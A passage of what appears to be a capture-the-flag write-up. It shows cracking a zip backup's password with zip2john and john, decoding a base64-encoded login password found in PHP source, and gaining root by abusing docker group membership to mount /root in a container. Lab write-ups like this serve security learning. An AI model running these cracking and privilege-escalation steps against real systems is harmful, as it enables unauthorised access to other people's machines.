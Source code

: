 ```shell
└─$ unzip backup.zip
Archive:  backup.zip
[backup.zip] source_code.php password:
```

`john` came again to the rescue.

```shell
└─$ zip2john backup.zip > backup_zip_hash.txt

└─$ john --wordlist=/usr/share/wordlists/rockyou.txt backup_zip_hash.txt
```

## getting second user login

the password worked and we got a new file `source-code.php`
in this file is a base64 encoded password.

```php
password = $_POST["password"];
                if(base64_encode($password) == "IWQwbn************NzdzByZA==")
```

decoding with

```shell
echo -n "IWQwbn************NzdzByZA==" | base64 -d
```

and for which account we can see a few lines further down.

```php
{
	echo "Welcome Anurodh!";
	header("Location: authenticated.php");
}
```

using these creds we got a new login.
this user is memeber of the `docker` group. with this info we can exploit this like this.

## root access

```shell
$ su anurodh
Password:
anurodh@ubuntu:/var/www/files$ id
uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)

anurodh@ubuntu:/var/www/files$ docker image ls
REPOSITORY    TAG     IMAGE         ID  CREATED   SIZE
alpine        latest  a24bb4013296  2   years ago 5.57MB
hello-world   latest  bf756fb1ae65  2   years ago 13.3kB

anurodh@ubuntu:/var/www/files$ docker run -v /root/:/mnt -it alpine
/ # ls
bin etc lib mnt proc run sry tmp var
dev home media opt root sbin sys usr
/ # cd mnt
/mnt # ls
proof.txt
/mnt # cat proof.txt
```

and here is the root flag.

![[Pasted image 20221019094035.png]]
